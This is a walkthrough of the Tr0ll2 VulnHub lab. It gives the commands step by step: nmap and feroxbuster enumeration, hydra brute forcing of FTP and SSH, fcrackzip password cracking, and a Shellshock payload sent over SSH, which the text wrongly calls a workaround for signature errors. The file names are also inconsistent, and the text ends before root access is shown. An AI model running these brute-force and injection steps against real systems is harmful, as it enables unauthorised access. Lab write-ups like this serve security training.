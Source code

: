 ## Tr0ll2 VulnHub Walkthrough

Overview

Difficulty: Intermediate

Objective: Gain root access and retrieve the final flag.

Tools Used: nmap, feroxbuster, wget, base64, hydra, ssh, fcrackzip


In my case, the target IP address was 192.168.48.166.


---

Step 1: Network Discovery

Perform an initial scan using nmap to identify open ports and services:

nmap 192.168.48.166 -sV

Output:

Starting Nmap 7.95 ( https://nmap.org )  
Nmap scan report for 192.168.48.166  
Host is up (0.0084s latency).  

PORT     STATE SERVICE VERSION  
21/tcp   open  ftp     vsftpd 2.0.8 or later  
22/tcp   open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)  
80/tcp   open  http    Apache httpd 2.2.22 ((Ubuntu))  

MAC Address: 00:0C:29:4C:BC:34 (VMware)  
Service Info: Host: Tr0ll; OS: Linux


---

Step 2: Web Enumeration

1. Visit the HTTP service (port 80) in your browser.
Check for visible clues on the main page and view the robots.txt file.


2. Use feroxbuster for directory enumeration:

feroxbuster -u http://192.168.48.166/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -C404

Notable discoveries:

/dont_bother/

cat_the_troll1.jpg



3. Analyze the image (cat_the_troll1.jpg) using strings:

strings --all cat_the_troll1.jpg

Clue found:
"Look Deep within y0ur_self for the answer."


4. Access the hidden directory and retrieve the encoded file:

wget http://192.168.48.166/y0ur_self/answer.txt


5. Decode the answer.txt file (Base64):

base64 -d answer.txt >> pass.txt


6. Extract usernames and passwords from pass.txt:

cat usr.txt




---

Step 3: Brute Force Login

Use hydra to brute force credentials for ftp and ssh:

FTP Brute Force

hydra -L usr.txt -P usr.txt 192.168.48.166 ftp -I

Result:
Username: Tr0ll
Password: Tr0ll

SSH Brute Force

hydra -L usr.txt -P usr.txt 192.168.48.166 ssh -I

Result:
Username: Tr0ll
Password: Tr0ll


---

Step 4: Exploiting

Access via SSH

ssh Tr0ll@192.168.48.166

Upon logging in, the connection is terminated automatically:
“LOL auto-kick.”

Access via FTP

1. Log in to FTP:

ftp Tr0ll@192.168.48.166


2. Download the lmao.zip file:

get lmao.zip


3. Crack the ZIP password:

fcrackzip -u -D -p '/path/to/pass.txt' lmao.zip

Password: ItCantReallyBeThisEasyRightLOL


4. Extract the ZIP file:

unzip lmao.zip


5. Inside the extracted contents, find an RSA private key (noob).




---

Step 5: Privilege Escalation

SSH Access as Noob

Use the private key to log in as noob:

ssh -i noob noob@192.168.48.166 -o PubkeyAcceptedKeyTypes=ssh-rsa

If login fails due to signature issues, use the following workaround:

ssh -i noob noob@192.168.48.166 -o PubkeyAcceptedKeyTypes=ssh-rsa '() { :;}; /bin/bash'

Once inside, explore the system for privilege escalation opportunities.


---

Final Notes

Disclaimer: This walkthrough is intended solely for educational purposes. Always ensure you have explicit permission to test systems before conducting any form of penetration testing.

Happy Hacking!


---

Let me know if additional details or adjustments are needed!


